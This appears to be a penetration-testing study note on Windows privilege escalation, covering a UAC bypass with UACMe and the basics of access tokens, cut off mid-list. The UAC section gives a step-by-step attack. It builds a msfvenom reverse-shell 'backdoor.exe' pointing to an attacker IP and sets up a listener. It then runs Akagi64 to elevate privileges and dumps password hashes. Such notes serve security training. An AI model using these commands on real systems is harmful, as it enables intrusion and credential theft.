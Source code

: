 #### Bypassing UAC With UACMe ####
+ <mark style="background: #D2B3FFA6;">UACMe</mark> is an open source, robust privilege escalation tool developed by @hfire0x, it can be used to bypass Windows UAC by leveraging various techniques 
	+ Github: https://github.com/hfiref0x/UACME
+ The <mark style="background: #D2B3FFA6;">UACME</mark> Github repository contains a very well documented list of methods that can be used to bypass UAC on multiple versions of Windows ranging from Windows 7 to 10
+ It allows attackers to execute malicious payloads on a Windows target with admin/elevated privileged by abusing the inbuilt Windows AutoElevate tool
+ The UACMe Github repository has more than 60 exploits that can be used to bypass UAC depending on the version of Windows running on the target 

**Once a foothold is gotten with a shell**, can check privileges 
+ in meterpreter, can do `getprivs` if not very many, escalation will be needed 
+ Can start a shell with the `shell` command
	+ can do `net user` and net `localgroup administrators` to get more info about the user
+ So even if the user is apart of the admin group, can not run admin commands without <mark style="background: #BBFABBA6;">UAC</mark> bypasses
  + Example: Changing the password with `net user admin password123` will get denied

Will first **generate a payload** with <mark style="background: #D2B3FFA6;">msfvenom</mark>
+ Example: `msfvenom -p windows/meterpreter/reverse_tcp LHOST=10.10.9.3 LPORT=1234 -f exe > backdoor.exe`

Then will **set up** a <mark style="background: #BBFABBA6;">listener</mark> in <mark style="background: #FF5582A6;">msfconsole</mark>
+ Example: `use multi/handler`
+ then set the payload: `set payload windows/meterpreter/reverse_tcp`
+ set LHOST and LPORT

Will go back to the <mark style="background: #FF5582A6;">meterpreter</mark> session on the target
+ Will `mkdir Temp` as it is a good place to put exe's
+ Will `upload backdoor.exe`
+ And upload the <mark style="background: #FF5582A6;">UACMe payload</mark>, Example: `upload /root/Desktop/tools/UACME/Akagi64.exe`
+ To run, will `.\Akagi64.exe 23 c:\Temp\backdoor.exe`, and can check listener that it works
	+ where 23 represents the key or method
+ The listener will now start and can run `getprivs` to see if it worked
+ can see what other process are running with `ps` and even migrate to them with `migrate PROCESS_NUMBER`
	+ After that can do something like get the hashes with `hashdump`

### Access Token Impersonation ###

#### Windows Access Tokens ####
+ Windows access tokes are a core element of the authentication process on Windows and are created and managed by the **Local Security Subsystem Service** (<mark style="background: #BBFABBA6;">LSASS</mark>)
+ Windows <mark style="background: #ADCCFFA6;">access token is responsible for identifying and describing the security context </mark>of a process or thread running on a system. Simply put, an access toke <mark style="background: #FFF3A3A6;">can be thought of as a temporary key akin to a web cookie</mark> that provides users with access to a system or network resources without having to provide credentials each time a process is started or a system resources is accessed.
+ Access tokens are **generated** by the <mark style="background: #BBFABBA6;">winlogon.exe</mark> process every-time a user authenticates successfully and includes the identity and privileges of the user account associated with the thread or process. This token is then attached to the <mark style="background: #BBFABBA6;">userinit.exe</mark> process, after which all <mark style="background: #FFF3A3A6;">child processes started by a user will inherit a copy of the access token</mark> from their creator and will <mark style="background: #ADCCFFA6;">run under the privileges of the same access token</mark> 
+ Windows access tokens are categorized based on the varying security levels assigned to them 
	+ These security levels are used to <mark style="background: #ADCCFFA6;">determine the privileges</mark> that are assigned to a specific token 
+ An access token will typically be assigned one of the following <mark style="background: #FF5582A6;">security levels</mark>: